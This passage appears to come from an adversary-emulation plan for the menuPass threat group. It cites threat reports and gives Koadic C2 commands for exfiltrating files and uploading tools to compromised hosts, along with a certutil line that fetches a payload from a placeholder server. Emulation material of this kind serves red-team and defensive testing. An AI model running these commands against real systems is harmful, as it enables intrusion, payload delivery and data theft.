 #### 7.A - Exfiltration Over C2 Channel ([T1041](https://attack.mitre.org/techniques/T1041/))

```cmd
(koadic: sta/js/mshta)# use implant/utils/download_file
(koadic: imp/uti/download_file)# set lpath #{local_file_save_path}
(koadic: imp/uti/download_file)# set rfile #{file_to_download}
(koadic: imp/uti/download_file)# set certutil true
(koadic: imp/uti/download_file)# set zombie #{zombie_id}
(koadic: imp/uti/download_file)# run
```

## Step 8 - menuPass Command and Control

menuPass actors are reported to have introduced sustained malware to target networks.  Poison Ivy, PlugX, and more recently, the publicly available QuasarRat are reported to have been used by menuPass actors.<sup>[4](https://www.pwc.co.uk/cyber-security/pdf/cloud-hopper-report-final-v4.pdf)</sup> <sup>[11](https://blog.trendmicro.com/trendlabs-security-intelligence/chessmaster-cyber-espionage-campaign/)</sup> <sup>[13](https://blogs.blackberry.com/en/2019/06/threat-spotlight-menupass-quasarrat-backdoor)</sup>  <sup>[25](https://fortinet.com/blog/threat-research/uncovering-new-activity-by-apt-)</sup> These implants provide the attacker with additional capabilities.  More importantly, these implants are used to ensure persistent access to the target network.

menuPass actors are reported to have conducted ingress tool transfer using several different techniques.  You may choose to use Koadic's built-in functionality or leverage tools native to the Windows environment.  menuPass actors are reported to have done both.<sup>[15](http://blog.trendmicro.com/trendlabs-security-intelligence/chessmasters-new-strategy-evolving-tools-tactics/)</sup> <sup>[16](https://trendmicro.com/en_us/research/18/c/chessmaster-adds-updated-tools-to-its-arsenal.html)</sup>

### Procedures

#### 8.A - Ingress Tool Transfer ([T1105](https://attack.mitre.org/techniques/T1105/))

menuPass may have accessed the command-line to use a tool native to the Windows environment (certutil) to download and decode additional capabilities.<sup>[16](https://trendmicro.com/en_us/research/18/c/chessmaster-adds-updated-tools-to-its-arsenal.html)</sup>

```cmd
(koadic: sta/js/mshta)# cmdshell #{zombie_id}
C:\Users\Victim> certutil.exe -urlcache -split -f https://www.#{payload_server.com}/#{file}
```

#### Alternative Procedure - Koadic File Upload

```cmd
(koadic: sta/js/mshta)# use implant/utils/upload_file
(koadic: imp/uti/upload_file)# set lfile #{local_file_to_upload}
(koadic: imp/uti/upload_file)# set zombie #{zombie_id}
(koadic: imp/uti/upload_file)# run
```

## Step 9 - menuPass Persistence
